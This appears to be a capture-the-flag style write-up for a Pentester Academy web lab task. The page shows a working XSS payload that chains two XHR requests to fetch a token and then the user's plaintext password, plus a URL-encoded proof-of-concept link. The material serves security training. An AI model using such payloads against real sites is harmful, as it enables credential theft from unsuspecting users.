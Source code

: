 ## Task 20 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/20)</small>

Objectives:

1. Find John's Password using an XSS vulnerability on this page
1. Display the Password in the div with id "result"
1. App stores password in Plain Text :(
1. No Hardcoded values can be used - everything has to be figured out dynamically

So in this when I checked the source code, I found the 2 apis. Yep, again lengthy payload 🤦

![](https://i.ibb.co/HdJNwD9/image.png)

Also the gettoken is in JSON

![](https://i.ibb.co/nj6NwNv/image.png)

Luckily we have [XMLHttpRequest.responseType](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/responseType) which will parse the JSON string as soon as the request response body is returned 😄

So let's use the XHR and complete this task

```js
let uid = document.querySelector("a").innerText.trim().slice(-4);

const xhr1 = new XMLHttpRequest();
xhr1.responseType = "json";

xhr1.onreadystatechange = function () {
  if (this.status == 200 && this.readyState == 4) {
    const xhr2 = new XMLHttpRequest();
    xhr2.responseType = "json";

    xhr2.onreadystatechange = function () {
      if (this.status == 200 && this.readyState == 4) {
        document.querySelector("#result").innerText = this.response.resp.password;
      }
    };
    xhr2.open("GET", "http://pentesteracademylab.appspot.com/lab/webapp/jfp/20/getpassword?token=" + this.response.params.token, true);
    xhr2.send();
  }
};
xhr1.open("GET", "http://pentesteracademylab.appspot.com/lab/webapp/jfp/20/gettoken?uid=" + uid, true);
xhr1.send();
```

In XHR, the parsed JSON response is accessed via [XMLHttpRequest.response](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/response)

For POC, [Click Here](http://pentesteracademylab.appspot.com/lab/webapp/jfp/20?url=%3Cscript%3Elet%20uid%20%3D%20document.querySelector%28%22a%22%29.innerText.trim%28%29.slice%28-4%29%3B%0A%0Aconst%20xhr1%20%3D%20new%20XMLHttpRequest%28%29%3B%0Axhr1.responseType%20%3D%20%22json%22%3B%0A%0Axhr1.onreadystatechange%20%3D%20function%20%28%29%20%7B%0A%20%20if%20%28this.status%20%3D%3D%20200%20%26%26%20this.readyState%20%3D%3D%204%29%20%7B%0A%20%20%20%20const%20xhr2%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%20%20%20%20xhr2.responseType%20%3D%20%22json%22%3B%0A%0A%20%20%20%20xhr2.onreadystatechange%20%3D%20function%20%28%29%20%7B%0A%20%20%20%20%20%20if%20%28this.status%20%3D%3D%20200%20%26%26%20this.readyState%20%3D%3D%204%29%20%7B%0A%20%20%20%20%20%20%20%20document.querySelector%28%22%23result%22%29.innerText%20%3D%20this.response.resp.password%3B%0A%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%3B%0A%20%20%20%20xhr2.open%28%22GET%22%2C%20%22http%3A%2F%2Fpentesteracademylab.appspot.com%2Flab%2Fwebapp%2Fjfp%2F20%2Fgetpassword%3Ftoken%3D%22%20%2B%20this.response.params.token%2C%20true%29%3B%0A%20%20%20%20xhr2.send%28%29%3B%0A%20%20%7D%0A%7D%3B%0Axhr1.open%28%22GET%22%2C%20%22http%3A%2F%2Fpentesteracademylab.appspot.com%2Flab%2Fwebapp%2Fjfp%2F20%2Fgettoken%3Fuid%3D%22%20%2B%20uid%2C%20true%29%3B%0Axhr1.send%28%29%3B%3C%2Fscript%3E)
